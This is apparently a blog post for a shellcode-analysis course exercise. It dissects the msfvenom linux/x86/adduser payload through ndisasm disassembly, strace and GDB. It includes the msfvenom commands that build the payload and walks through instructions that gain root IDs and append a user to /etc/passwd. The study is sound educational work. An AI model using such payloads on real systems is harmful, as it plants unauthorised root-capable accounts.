 ```yaml
---
layout: post
title: SLAE Exercise 5 (part 3) - Add User
subtitle: Shellcode Analysis 3 - Add User
tags: [SLAE]
---
```


linux/x86/adduser
======

The second chosen shellcode to be used from msfvenom is the 'adduser' payload. This adds a user to the system that it is executed on. The parameters to be used for this payload can be seen with the following command:

    msfvenom -p linux/x86/adduser --payload-options
	
From this it can be seen that there are two required payloads:

![payloadoptions](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/payloadoptions.png)

To keep things simple, these default options will be left, which should create the user with the username and password of 'metasploit'. The command that is used to create a payload that will create the new user is as below:

	msfvenom -p linux/x86/adduser  -f raw > adduserraw

Once this has been generated it can be disassembled using ndisasm to analyse the instructions used with the following command:

	ndisasm -b 32 ./adduserraw

![ndisasm](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/ndisasm.png)


Stepping through the instructions
------

Each of the instructions seen here will be stepped through, describing what is happening at each step. 

**Setreuid**

int setgid(gid_t gid);

The 'setreuid' syscall sets the real and/or effective user or group ID of the calling process. As both values set are 0 the running process will have permissions to modify the 'passwd' file. 

```
Xor ecx, ecx - Clears the ecx register.

Mov ebx, ecx - Move 0 to the ebx register, clearing it.

Push byte +0x46 -	Pushes 70 to the stack.

Pop eax	Pop 70 from the stack into eax for the syscall 'setreuid'

Int 0x80 - An interupt which will call 'setreuid'.
```

**Open**

int open(const char *pathname, int flags, mode_t mode);

For this shellcode, the 'open' syscall is used to open the file that is to be written to in order to add the new user. This is the 'passwd' file found at '/etc/passwd. This can be seen in the below instructions pushed to the stack and then pointed to by ebx: 

```
Push byte +0x5 - Push 5 to the stack.

Pop eax - Pop 5 from the stack into eax for the 'open' syscall.

Xor ecx, ecx - Clear the ecx register.

Push ecx - Push 0 to the stack from the cleared ecx register.

Push dword 0x64777373 - These instructions push '/etc//passwd' to the stack.
Push dword 0x61702f2f	
Push dword 0x6374652f	

Mov ebx, esp - Move the stack pointer into ebx to be a pointer to the pathname to open.

Inc ecx - Increment ecx to be 1.

Mov ch, 0x4 - Move 4 to ch.

Int 0x80 - Interupt to call the 'open' syscall
```

**Write**
ssize_t write(int fd, const void *buf, size_t count);

The 'write' syscall is used to add the new user to the file that was opened previously. This is done using the returned file descriptor. The call value couldn't be completely observed within the disassembled code obtained from Ndisasm previosuly. From debugging the shellcode with GDB the following instuctions could be observed:

![writeinstructions](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/realinstructions.png)

```
Xchg ebx, eax - Move the return value of the 'open' syscall into ebx. The return value is the file descriptor.

Call 0x80480a7 - Call 0x80480a7, which will start from the instruction 'pop ecx'. This is used as a call-pop to get the address of the value required onto the stack.

Insd - The following contain the value that is pointed to from using 'call', and so hold no significance as instructions. 
Gs jz 0x90	
Jnc 0xa1	
Insb	
Outsd	
Imul esi, [edx+edi+0x41], dword 0x49642f7a	
Jnc 0xa7	
Xor al, 0x70	
Xor al, 0x49	
Push edx	
Arpl [edx], di	
Xor [edx], bh	
Xor [edx], bh	
Cmp ch, [edi]	
Cmp ch, [edi]	
Bound ebp, [ecx+0x6e]	
Das	
Jnc 0xba	
Or bl, [ecx-0x75]	

pop ecx	- Move the pointer from 'call' into ecx for the required *buf parameter. 

mov edx, DWORD PTR [ecx-0x4] - Move the required count into edx, this call writes up to 'count' bytes from the buffer sepcified in ecx.

push 0x4 - Push 4 to the stack.

pop 0x4 - Pop 4 to eax to be used for the syscall 'write'.

Int 0x80 - Interupt to call the 'write' syscall.
```

**Exit**

The instructions for this section are as follows:

```
Push byte +0x1	Push 1 to the stack to be used for the exit syscall
Pop eax	Pop 1 to eax for the exit syscall
Int 0x80	Interupt calling the syscall to exit gracefully
```

Strace
------

Strace was utilised to observe the syscalls used and the parameters. The command used and screenshot of the output can be observed below:

    msfvenom -p linux/x86/adduser  -f elf > adduserelf

![Strace](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/strace.png)


GDB
------

To observe the shellcode executing within GDB, the elf payload created will be analysed. The command used to create this code is as follows:

    msfvenom -p linux/x86/adduser  -f elf > adduserelf

With the created payload, there are no symbols within the binary and so 'readelf' has to be used to find the entry point for the binary. This can be run as follows:

    Readelf --headers ./adduserelf

The output of this is as below:

![readelf](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/readelf.png)

As can be seen, the entrypoint in this instance would be the address '0x8048054'. This can now be observed within GDB when setting a breakpoint at this address and running the program:

![gdbinstructions](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/gdbinstructions.png)


**setreuid**

Just before the first syscall for 'setreuid', the registers were examined to determine if they were as would be expected from the earlier analysis:

![setreuid](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/setreuidregisters.png)


**Open**

As part of the 'open' syscall 3 values are pushed to the stack which are subsequently pointed to within the ebx register. The instructions can be seen below:

![openpush](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/openpush.png)

Once these have been pushed to the stack, the values can be observed:

![etcpasswd](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/etcpasswd.png)

It is clear that '/etc//passwd' is pushed to the stack to be pointed to within ebx to be the file that will be written to. This is where the new user will be inserted. 

Interestingly here, 0x4 is moved into ch to change the value of ecx from 0x1 (1) to 0x401 (1025). This is for the 'flags' parameter of the syscall. The values of the registers before the syscall is called can also be observed within this screenshot. Note that the value of ebx is the same as esp and is pointing to the  '/etc//passwd' value discussed before:

![flags](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/flags.png)


**Write**

The values of the registers before the next syscall 'write' are observed. The value in ebx is the file descriptor that was returned from the 'open' syscall, the ecx register will be discussed below, and the edx register contains the size to be written. This wasn't seen in the Ndisasm dissasembly and within GDB used the following instruction to get the required size:

    Mov edx, DWORD PTR [ecx-0x4]
	
The value pointed to within ecx is the pointer that was pushed to the stack when 'call' was used. It can be seen that this contains the values to write to the opened file:

![examineecx](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/writepointer.png)

The values in the register before the syscall:

![writeregisters](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/writesyscall.png)


**Exit**

The rest of the shellcode gracefully exits the program which will not require walking through. 

